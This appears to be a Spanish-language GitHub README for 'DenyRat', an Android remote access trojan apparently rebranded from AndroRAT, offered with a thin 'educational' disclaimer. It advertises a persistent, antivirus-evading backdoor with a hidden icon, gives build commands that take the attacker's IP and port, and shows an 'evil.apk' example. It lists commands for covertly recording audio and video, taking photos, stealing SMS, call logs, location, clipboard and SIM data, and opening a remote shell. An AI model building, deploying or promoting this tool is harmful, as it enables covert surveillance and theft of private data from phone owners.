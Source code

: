 **Disclaimer** : Este software está destinado únicamente a fines educativos. El presente autor no es responsable de ningún uso malintencionado de la aplicación.
# DenyRat 

[![MIT License](https://img.shields.io/badge/license-MIT-blue.svg)](https://opensource.org/licenses/MIT) 
[![Twitter Follow](https://img.shields.io/twitter/follow/karma9874?label=Follow&style=social)](https://twitter.com/karma9874)
[![GitHub followers](https://img.shields.io/github/followers/karma9874?label=Follow&style=social)](https://github.com/karma9874)

DenyRat es una herramienta diseñada para dar el control del sistema Android de forma remota y recuperar información de él. DenyRat es una aplicación cliente / servidor desarrollada en Java Android para el lado del cliente y el servidor está en Python.

##### DenyRat trabaja en dispositivos con Android 4.1 (Jelly Bean) a Android 9.0 (Oreo) (API 16 a API 28)

> DenyRat también funciona en Android 10 (Q) pero parte del comando del intérprete será inestable. 

## Screenshots

![AndroRAT](https://github.com/karma9874/AndroRAT/blob/master/Screenshots/5.jpg "AndroRAT in action")
## Caracteristicas de DenyRat
* Puerta trasera persistente completa
* Totalmente indetectable por cualquier escáner antivirus [(VirusTotal](https://github.com/karma9874/AndroRAT/blob/master/Screenshots/virusTotal.JPG))
* Icono invisible en la instalación
* APK de peso ligero que funciona 24 * 7 en segundo plano
* La aplicación se inicia automáticamente al arrancar
* Puede grabar audio, video, tomar fotos de ambas cámaras
* Examinar registros de llamadas y registros de SMS
* Obtenga la ubicación actual, los detalles de la tarjeta SIM, ip, dirección mac del dispositivo

## Pre requisitos
DenyRat requiere Python (> 3.6) y JAVA 8 (o Android Studio)

## Instalacion
```
git clone https://github.com/DanyMilan23/BotAndroid.git
pip install colorama
```
## Uso (Windows y Linux)
### Modos disponibles
* `--build` - para construir la apk
* `--shell` - brinda un shell interactivo
### `build` modo
```
Usage:
  python main.py --build [flags]
  Flags:
    -i, --ip                Direccion IP del atacante (requerido)
    -p, --port              Numero del puerto del atacante (requerido)
    -o, --output            Nombre del archivo de apk (opcional)
```
### `shell` modo
```
Usage:
  python main.py --shell [flags]
  Flags:
    -i, --ip                Escuchar la direccion IP
    -p, --port              Escuchar el numero de pueto
```
Despues de correr `shell` se mostrara un interprete en el cual se interactuara 

Comandos que se pueden ejecutar en la intérprete
```
    deviceInfo -> devuelve información básica del dispositivo
    camList -> devuelve cameraID
    takepic [cameraID] -> Toma una foto de la cámara
    startVideo [cameraID] -> comienza a grabar el video
    stopVideo -> dejar de grabar el video y devolver el archivo de video
    startAudio -> comienza a grabar el audio
    stopAudio -> detener la grabación de audio
    getSMS [inbox | sent] -> devuelve sms de la bandeja de entrada o sms enviados en un archivo
    getCallLogs -> devuelve registros de llamadas en un archivo
    shell -> inicia un shell sh del dispositivo
    vibrar [número_de_veces] -> vibrar el dispositivo número de veces
    getLocation -> devuelve la ubicación actual del dispositivo
    getIP -> devuelve la ip del dispositivo
    getSimDetails -> devuelve los detalles de todas las simulaciones del dispositivo
    clear -> limpia la pantalla
    getClipData -> devuelve el texto guardado actual desde el portapapeles
    getMACAddress -> devuelve la dirección mac del dispositivo
    salir -> salir del intérprete
```
## Examples

* To build the apk:
```python main.py --build -i 192.169.x.x -p 8000 -o evil.apk```

* To get the interpreter:
```python main.py --shell -i 0.0.0.0 -p 8000```
## License
DenyRat is licensed under MIT license take a look at the [LICENSE](https://github.com/karma9874/AndroRAT/blob/master/LICENSE) for more information.



